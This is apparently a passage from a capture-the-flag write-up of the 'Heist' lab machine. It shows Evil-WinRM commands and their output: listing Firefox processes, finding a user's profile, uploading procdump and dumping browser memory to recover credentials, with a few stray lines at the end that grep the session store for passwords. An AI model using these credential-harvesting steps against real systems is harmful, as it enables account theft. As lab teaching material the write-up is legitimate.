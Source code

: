 ```
*Evil-WinRM* PS C:\> get-process firefox
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    358      26    16332     279920       0.73   6252   1 firefox
   1138      71   141448     476008      42.98   6440   1 firefox
    341      19    10176     264104       0.80   6564   1 firefox
    407      31    17392     293212       3.86   6796   1 firefox
    390      36    78456     341504      67.70   7104   1 firefox   

```

I also see a profile in chase’s `appdata` directory:

```
*Evil-WinRM* PS C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles> ls

    Directory: C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles

Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-----        8/23/2019  12:38 PM                77nc64t5.default

```

### Get Creds from Firefox

I’ll show a few different ways to do this.

#### procdump / Out-Minidump

I’ll grab `procdump64.exe` from the [sysinternals tools page](https://live.sysinternals.com/), and upload it to Heist:

```
*Evil-WinRM* PS C:\Users\Chase\Documents> upload ~/exes/procdump64.exe .
Info: Uploading ~/exes/procdump64.exe to .

Data: 455560 bytes of 455560 bytes copied

Info: Upload successful!

```

Now I’ll run it on one of the pids for `firefox` from above:

```
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6252 -accepteula

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[02:54:30] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_190823_025430.dmp
[02:54:30] Dump 1 writing: Estimated dump file size is 280 MB.
[02:54:32] Dump 1 complete: 281 MB written in 2.1 seconds
[02:54:33] Dump count reached.

```


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password